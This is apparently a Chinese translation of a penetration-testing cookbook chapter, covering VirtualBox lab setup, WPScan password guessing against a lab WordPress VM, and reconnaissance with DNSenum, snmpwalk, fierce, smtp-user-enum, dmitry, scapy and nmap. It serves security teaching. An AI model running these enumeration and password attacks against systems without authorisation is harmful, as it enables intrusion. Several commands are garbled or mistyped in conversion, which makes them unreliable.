


10. 随着新虚拟机的创建，我们准备好安装刚刚在 `VirtualBox` 中配置好的操作系统。

51



## 高级测试实验室

11. 在 `VirtualBox` 主窗口中，选中我们刚刚创建的操作系统名称，然后点击 `Settings`（设置）按钮：
12. 现在已经遵循了基础安装步骤，我们将继续允许您使用下载的 `ISO` 文件作为虚拟磁盘。这将避免您需要刻录物理 DVD 来完成安装。在 `Settings`（设置）屏幕上，点击 `Storage`（存储）菜单选项：

52



## 第 3 章

13. 接下来，在 `Storage` 树下，选中 `Controller: IDE` 下方的 `Empty disc` 图标。这选择了我们的“虚拟”CD/DVD ROM 驱动器。在屏幕最右侧的 `Attributes`（属性）下，点击磁盘图标。在随后弹出的窗口中，从列表中选择您的 `ISO` 文件。如果 `ISO` 文件不存在，请选择 `Choose a virtual CD/DVD disc file...` 并找到您的 `ISO`。完成这些步骤后，点击 `OK` 按钮：


## 工作原理...

本章从在 `VirtualBox` 中创建一个新的虚拟机实例开始。然后，我们选择了我们的操作系统，并设置了内存和硬盘大小。随后，我们选择了 `ISO` 文件，并将 `ISO` 插入到我们的虚拟 CD/DVD 驱动器中。最后，我们启动了虚拟环境以便安装我们的操作系统。在本章的其余部分，我们将使用 `VirtualBox` 作为首选工具来搭建各种环境。

53



## 高级测试实验室
### 更多内容...

我们将在主机上执行任务，这些任务可能会导致主机变得不稳定甚至无法运行。`VirtualBox` 为我们提供了一个创建虚拟机环境副本的优秀工具：

1. 从主界面，左键点击您想要克隆的虚拟机服务器。
2. 右键点击您想要克隆的虚拟机服务器，并按下 `Clone...`（克隆）菜单选项：
3. 在克隆屏幕上，为您的新虚拟机服务器命名。

54


## 第 3 章

4. 点击 `Next`（下一步），在后续屏幕上，选择创建 `Linked clone`（链接克隆）或 `Full clone`（完整克隆），如下所示：

- **Full Clone（完整克隆）**：在完整克隆中，会创建一个虚拟机的完全独立的副本。
- **Linked Clone（链接克隆）**：在链接克隆中，会拍摄快照并创建克隆。然而，链接克隆依赖原始文件才能运行。这可能会降低链接克隆的性能。

55


## 高级测试实验室

5. 点击 `Clone`（克隆）并等待虚拟机克隆：

## 下载 Windows 目标

目前及可预见的未来，Microsoft Windows 是许多个人和企业的首选操作系统。幸运的是，微软为我们提供了获取测试操作系统的方法。

### 准备工作
完成此模块需要连接互联网或内部网络。

## 如何操作...

下载 Windows 目标的步骤如下：

1. 打开网页浏览器并导航到 Microsoft Technet ：`http://technet.microsoft.com/en-us/ms376608`。

56


## 第 3 章

2. 进入网站后，在屏幕右侧点击 `Downloads`（下载）链接：
3. 从 `Download`（下载）菜单选项中选择 `Evaluate new products`（评估新产品）：

57


4. 在下一个屏幕上，您有几种方法来选择想要测试的产品。推荐的是 `Windows 2012`、`Windows 8` 和 `Windows 7`。

## 下载 Linux

对于大多数部署而言，Linux 是首选操作系统。与 Windows 相比，它的成本较低（免费），使其成为大多数 `SaaS` 环境的理想选择。在本配方中，我们将检查 `Turnkey Linux`。

### 准备工作

完成此模块需要连接互联网或内部网络。
58


## 第 3 章

## 如何操作...

下载 Linux 的步骤如下：

2. 进入网站后，您将看到超过 100 种发行版，包括 `CentOS`、`Ubuntu`、`Fedora` 和 `Debian`。在本配方中，我们将检查 `Turnkey Linux`。
3. 在 `Turnkey Linux` 下载页面，选择 `ISO` 镜像，下载完成后，按照 `Getting comfortable with VirtualBox` 配方中的指令安装 `Turnkey Linux` 虚拟机：

59


## 高级测试实验室

现在我们已加载 WordPress 虚拟机，可以使用 `WPScan` 对对其攻击。`WPScan` 是一个黑盒 WordPress 安全扫描器，允许用户发现 WordPress 安装中的漏洞。`WPScan` 有多个参数，包括：
- `-u <target domain name or url>`：`-u` 参数允许您指定目标域名。
- `-f`：`-f` 参数允许您强制检查是否安装了 WordPress。
- `-e [options]`：`-e` 参数允许您设置枚举。

让我们开始使用 `WPScan` 的过程。

确保您的 WordPress 虚拟机和 Kali Linux 虚拟机都使用 `VirtualBox Host Only Adapter` 网络设置。

1. 在 Kali Linux 虚拟机中，启动 `WPScan` 帮助文件：

wpscan -h
```

62



## 第 3 章

页面将如下所示：
2. 针对我们的 WordPress 虚拟机运行基础的 `WPScan`。在这种情况下，我们的目标 IP 地址为 `192.168.56.102`：

```
wpscan -u 192.168.56.102
```

3. 现在，让我们运行以下命令来练习枚举用户名列表：


```bash
wpscan -u 192.186.56.102 -e u vp
```
63


高级测试实验室

页面将如如下截图所示：
4. 最后，我们可以通过发布 `-wordlist <文件路径>` 选项为 WPScan 提供词汇列表：

```bash
wpscan -u 192.168.56.102 -e u --wordlist /root/wordlist.txt
```
64


# 第 3 章


5. 完成了！我们成功地从 Wordpress 安装中检索了密码。

65


# 4 章

### 信息收集

* 服务枚举
* 确定网络范围
* 识别活动主机
* 寻找开放端口
* 操作系统指纹识别
* 服务指纹识别
* 使用 Maltego 进行威胁评估
* 映射映射

## 引言
攻击中最重要的阶段之一是信息收集。为了能够发起攻击，我们需要收集有关目标的基本信息。因此，获取的信息越多，攻击成功的概率就越高。

我还想强调此阶段的一个重要方面，即文档记录。

在编写本书时，可用的最新 Kali 版本包含了一些工具，可以帮助我们整理和组织来自目标的数据，使能够获得更好的侦察。诸如 `Maltego CaseFile` 和 `KeepNote` 等工具就是例子。


### 信息收集


在本食谱中，我们将执行一些服务枚举技巧。枚举是一个允许我们从网络收集信息的过程。我们将检查 `DNS 枚举` 和 `SNMP 枚举` 技术。DNS 枚举是定位一个组织的所有 DNS 服务器和 DNS 目的的过程。DNS 枚举将允许我们收集有关该组织的关键信息，如用户名、计算机名称、IP 地址等。为了完成此任务，我们将使用 `DNSenum`。对于 SNMP 枚举，我们将使用一个名为 `SnmpEnum` 的工具。`SnmpEnum` 是一个强大的 SNMP 枚举工具，允许用户分析网络上的 SNMP 流量。

### 如何操作……

让我们从检查 DNS 枚举开始：

1. 我们将利用 `DNSenum` 进行 DNS 枚举。要开始 DNS 枚举，打开 Gnome 终端并输入以下命令：
```bash
cd /usr/bin
```
请不要对不属于你且不在你自己的服务器上的公共网站运行此工具。在这种情况下，我们使用 `domainnameontheinternet.com` 作为示例，你应该将其替换为你的目标。请小心！

2. 我们应该得到一个包含 host、名称服务器(s)、邮件服务器(s) 等信息的输出，如果我们运气的话，还有区域传输：

68


3. 我们可以使用使用 `DNSenum` 运行一些额外的选项，它们包括：
* `-- threads [number]` 允许你设置同时运行多少个进程
* `-d` 允许设置 WHOIS 请求之间的秒级延迟
* `-o` 允许我们指定输出位置
* `-w` 允许我们启用 WHOIS 查询

有关 WHOIS 的更多信息，请访问以下 URL：http://en.wikipedia.org/wiki/Whois

69


4. 另一个我们可以用于检查 Windows 主机的命令是 `snmpwalk`。`snmpwalk` 是一个 SNMP 应用，使用 `SNMP GETNEXT` 请求查询网络实体以获取信息树。从命令行，发布以下命令：
snmpwalk -c public 192.168.10.200 -v 2
```
5. 我们还可以枚举已安装的软件：
```bash
snmpwalk -c public 192.168.10.200 -v 1 | grep InstalledName
HOST-RESOURCES-MIB::InstalledName.1 = "VMware Tools"
HOST-RESOURCES-MIB::InstalledName.2 = "WebFiles"
```
6. 并使用相同的工具枚举开放端口：
```bash
```
21
25
80
43
7. 另一个通过 SNMP 获取信息的工具是 `snmpcheck`：
```bash
cd /usr/bin
snmpcheck -t 192.168.10.200
```
```bash
cd /usr/bin
fierce -dns domainnameontheinternet.com
```
请不要对不属于你且不在你自己的服务器上的公共网站运行此工具。在这种情况下，我们使用 `domainnameontheinternet.com` 作为示例，你应该将其替换为你的目标。请小心！

9. 若要执行相同的操作，但使用提供的词汇列表，输入以下命令：
```bash
fierce -dns domainnameontheinternet.com -wordlist hosts.txt -file /tmp/output.txt
```


10. 要对 SMTP 服务器上的用户进行 SMTP 枚举，输入以下命令：
```bash
smtp-user-enum -M VRFY -U /tmp/users.txt -t 192.168.10.200
```
11. 获得结果后，我们现在可以进行记录。

## 确定网络范围


### 如何操作……

让我们通过打开终端窗口开始确定网络范围的过程：

1. 打开一个新的终端窗口并发布以下命令：
```bash
dmitry -wnsp targethost.com -o /root/
```
2. 完成后，我们的桌面上应该有一个名为 `dmitry-result` 的文本文件，其中填充了从目标收集的信息：
71


3. 要发布 ICMP 掩码请求，输入以下命令：
```bash
netmask -s
```
4. 使用 `scapy` 我们可以进行并行路由跟踪。要启动它，输入以下命令：
```bash
scapy
5. 启动 `scapy` 后，我们现在可以输入以下函数：
```python
res,unans=traceroute(["www.google.com","www.Kali-linux.org","www.target.com"],dport=[80,443],maxttl=20, retry=-2)
```
6. 要以表格显示结果，我们发布以下函数：
```python
ans.make_table()
```
输出如下：
```
1 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
2 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
3 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
4 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
5 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
6 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
7 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
8 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
9 192.168.10.1       192.168.10.1       192.168.10.1       192.168.10.1
10 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
12 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
13 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
14 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
15 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
16 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
17 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
18 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
19 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
20 192.168.10.1      192.168.10.1      192.168.10.1      192.168.10.1
```
```python
res.graph()
```
8. 要保存图形，只需输入以下函数：
```python
res.graph(target=">tmp/graph.svg")
```
9. 我们还可以拥有图形的 3D 表示。这是通过输入以下函数实现的：
```python
res.trace3D()
72


# 第 4 章

11. 要退出 `scapy`，输入以下函数：
```python
exit()
```
12. 获得结果后，我们现在可以进行记录。
它是如何工作的……

在步骤 1 中，我们使用 `dmitry` 从目标获取信息。`-wnspb` 选项允许我们


对域名执行 `WHOIS` 查找，检索 `Netcraft.com` 信息，对可能的子域名进行搜索，并进行 TCP 端口扫描。`-o` 选项允许我们将结果保存到文本文档中。在步骤 3 中，我们使用 `-s` 选项执行简单的 ICMP 网络掩码请求，以输出 IP 地址和网络掩码。接下来，我们使用 `scapy` 在目标主机上执行多并行跟踪路由，并以表格形式显示结果。在步骤 7 中，我们对端口 `80` 和 `443` 上的各种主机执行了 TCP 跟踪路由，并将最大 `TTL` 设置为 `20` 以停止进程。根据获得的结果，我们创建了它的图形表示并将其保存到临时目录，还创建了相同结果的 3D 表示。最后，我们退出 `scapy`。

### 识别活跃机器
在尝试渗透测试之前，我们首先需要识别目标网络范围内的活跃机器。一种简单的方法是对目标网络执行 `aping`。当然，这可能会被主机拒绝或感知到，而我们并不希望这样。

## 如何操作...

让我们通过打开终端窗口开始定位活跃机器的过程：

1. 使用 `Nmap` 我们可以找到主机是否在线，显示如下：

```
nmap -sP 216.27.130.162
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-27 23:30 CDT
Nmap scan report for test-target.net (216.27.130.162) Host is up (0.00058s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
73
